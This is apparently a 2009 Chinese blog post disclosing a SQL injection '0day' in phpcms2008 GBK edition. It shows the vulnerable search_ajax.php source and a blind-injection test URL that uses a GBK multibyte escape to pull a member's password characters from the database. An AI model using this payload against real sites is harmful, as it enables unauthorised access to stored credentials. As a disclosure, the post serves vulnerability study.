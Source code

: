 ```yaml
---
title: phpcms2008 0day ask/search_ajax.php
description: phpcms20080dayask/search_ajax.php受影响程序：phpcms2008gbk漏洞文件：ask/search_ajax.php......
date: 2009-03-16 09:20:30
category: 漏洞信息
tags: ['PhpCms', '漏洞信息', '0day']
post_id: 815
alias: phpcms2008-0day-ask-search_ajax.php
ViewNums: 3240
---
```


[phpcms2008 0day ask/search_ajax.php](/blog/phpcms2008-0day-ask-search_ajaxphp)

受影响程序： phpcms2008 gbk

漏洞文件：ask/search_ajax.php

<?php
require './include/common.inc.php';
require_once MOD_ROOT.'include/ask.class.php';
$ask = new ask();
header('Content-type: text/html; charset=utf-8');
if(strtolower(CHARSET) != 'utf-8') $q = iconv(CHARSET, 'utf-8', $q);
if($q)
{
$where = " title LIKE '%$q%' AND status = 5";
}
else
{
exit('null');
}
$infos = $ask->listinfo($where, 'askid DESC', '', 10);

foreach($infos as $key=>$val)
{
$val['title'] = str_replace($q, '<span class="c_orange">'.$q.'</span>', $val['title']);
$info[$key]['title'] = CHARSET != 'utf-8' ? iconv(CHARSET, 'utf-8', $val['title']) : $val['title'];
$info[$key]['url'] = $val['url'];
}

echo(json_encode($info));
?>

测试方法：
ask/search_ajax.php?q=s%E6'/**/or/**/(select ascii(substring(password,1,1))/**/from/**/phpcms_member/**/where/**/username=0x706870636D73)>52%23

via [nuke](http://www.nukeblog.cn/article/125.htm)

